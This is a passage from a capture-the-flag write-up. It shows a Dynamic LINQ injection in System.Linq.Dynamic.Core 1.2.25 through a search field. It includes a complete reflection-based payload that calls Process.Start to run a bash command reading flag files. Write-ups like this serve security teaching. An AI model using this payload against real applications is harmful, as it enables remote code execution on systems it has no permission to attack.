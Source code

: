 But can we actually use this payload? According to the CVE, the vulnerability only
affects LINQ version 1.0.7.10 to 1.2.25. Let's check `src/CRUD.deps.json`

```cs
"dependencies": {
    "System.Linq.Dynamic.Core": "1.2.25",
    "runtimepack.Microsoft.NETCore.App.Runtime.linux-x64": "7.0.16",
    "runtimepack.Microsoft.AspNetCore.App.Runtime.linux-x64": "7.0.16"
},
```

Beautiful, we got version 1.2.25, which means we can exploit the vulnerability!

Let's change our payload to be like this:

```cs
") && "".GetType().Assembly.DefinedTypes.Where(it.Name == "AppDomain").First().DeclaredMethods.Where(it.Name == "CreateInstanceAndUnwrap").First().Invoke("".GetType().Assembly.DefinedTypes.Where(it.Name == "AppDomain").First().DeclaredProperties.Where(it.name == "CurrentDomain").First().GetValue(null), "System, Version = 4.0.0.0, Culture = neutral, PublicKeyToken = b77a5c561934e089; System.Diagnostics.Process".Split(";".ToCharArray())).GetType().Assembly.DefinedTypes.Where(it.Name == "Process").First().DeclaredMethods.Where(it.name == "Start").Take(3).Last().Invoke(null, "/bin/bash;-c \"cat /flag*.txt > /app/src/wwwroot/img/covers/output.txt\"".Split(";".ToCharArray())).GetType().ToString() == ("
```

Using the search field as our attack vector.

![before-searching](/images/2024-08-27-19-53-15.png)

Click on search

![after-searching](/images/2024-08-27-19-53-26.png)

Noice, no error. Let's now navigate to `/img/covers/output.txt` (we redirected the output of the flag to this file)


![flag](/images/2024-08-27-19-54-42.png)

---

The flag is: `SEKAI{L1nQ_Inj3cTshio0000nnnnn}`

The things we learned from this challenge:

1. Always sanitize user input.
2. Dynamic LINQ vulnerability.
